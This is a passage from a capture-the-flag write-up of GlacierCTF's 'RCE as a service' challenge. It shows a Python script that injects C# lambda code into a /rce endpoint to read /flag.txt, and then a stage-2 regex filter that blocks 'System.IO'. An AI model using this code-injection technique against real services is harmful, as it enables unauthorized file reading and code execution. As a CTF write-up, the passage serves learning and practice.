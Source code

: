 which returns `["Charmander","Charmander","Charmander"]`.

##### Exploiting

The exploit is pretty easy. We need to read a file, but since we cannot inject a [`using` directive](https://learn.microsoft.com/en-us/dotnet/csharp/language-reference/keywords/using-directive) we have to specify the fully qualified name of the class we want to use.
Based on the example previously given, we set in `Data` the file we want to read and we inject the code to read it in `Query`:

```Python
#!/usr/bin/env python3
import requests

base = 'https://rce-as-a-service-1.ctf.glacierctf.com'

def send_rce(data, code):
    endpoint = base + '/rce'
    payload = { 'Data': data, 'Query': code}
    res = requests.post(endpoint, json=payload)
    return res.text

print(send_rce(['/flag.txt'],
    '(data) => data.Select((d) => System.IO.File.ReadLines(d))'))
```

#### Stage 2

##### Challenge description

> It came to our attention that a highly advanced APT targeted our edge computing system. In order to stop the attacks, we implemented even more advanced mitigations.
>
> Think seccomp, but for the web!
>
> Now there's no way an attacker could run malicious code, right?
>
> (Goal: Read flag.txt at the filesystem's root.)

###### Attachments

> Program.cs

> api_usage.md

##### Analysis

The code is the same, except for the fact that this time a regex blocks our previous payload:

```C#
// Here we can adjust the difficulty of the challenge by banning certain functions.
var fileSystemUsage = Regex.IsMatch(query, "System.IO");

if (fileSystemUsage) {
    throw new Exception("'System.IO is not in the edge-computing file.
        This incident will be reported.'");
}
```
